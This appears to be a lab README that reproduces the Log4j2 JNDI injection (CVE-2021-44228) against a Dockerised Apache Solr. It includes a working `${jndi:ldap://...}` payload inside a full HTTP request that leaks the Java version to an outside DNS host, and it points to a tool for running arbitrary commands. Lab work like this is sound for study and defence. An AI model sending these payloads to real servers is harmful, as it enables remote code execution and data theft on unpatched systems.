 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:

![](1.png)

Exploit JNDI injection with [JNDInjector](https://github.com/rebeyond/JNDInjector) to execute arbitrary commands, `touch /tmp/success` is succesful executed:

![](2.png)
